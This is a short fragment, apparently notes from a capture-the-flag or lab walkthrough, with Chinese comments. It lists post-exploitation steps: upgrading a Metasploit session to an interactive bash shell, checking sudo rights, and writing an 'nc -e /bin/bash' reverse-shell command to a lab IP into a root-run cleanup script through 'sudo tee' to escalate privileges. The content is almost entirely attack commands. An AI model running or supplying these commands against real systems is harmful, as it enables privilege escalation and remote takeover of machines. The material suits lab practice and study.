 **Pass 1**

shell #MSF切换到命令行 python -c 'import pty; pty.spawn("/bin/bash")' #切换到shell strings bill.png #查看图片隐写 sudo -l #查看当前用户可用的sudo命令 echo "nc -e /bin/bash 192.168.110.130 5555" > shell.txt  #nc反弹命令 cat shell.txt | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh #使用tee命令将shell.txt内容输出到tidyup.sh